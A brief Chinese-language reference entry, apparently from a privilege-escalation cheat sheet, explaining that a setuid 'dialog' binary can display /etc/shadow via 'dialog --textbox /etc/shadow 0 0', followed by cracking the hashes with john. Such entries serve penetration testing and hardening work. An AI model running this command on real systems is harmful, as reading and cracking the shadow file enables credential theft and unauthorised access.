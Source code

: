 # dialog

`dialog` 若具有 `s` 权限，可以被用来读取一些高权限文件的内容，例如`/etc/shadow`

使用如下命令读取`/etc/shadow` 的内容：

```
dialog --textbox /etc/shadow 0 0
```

然后使用`john` 对 hash 进行破解.
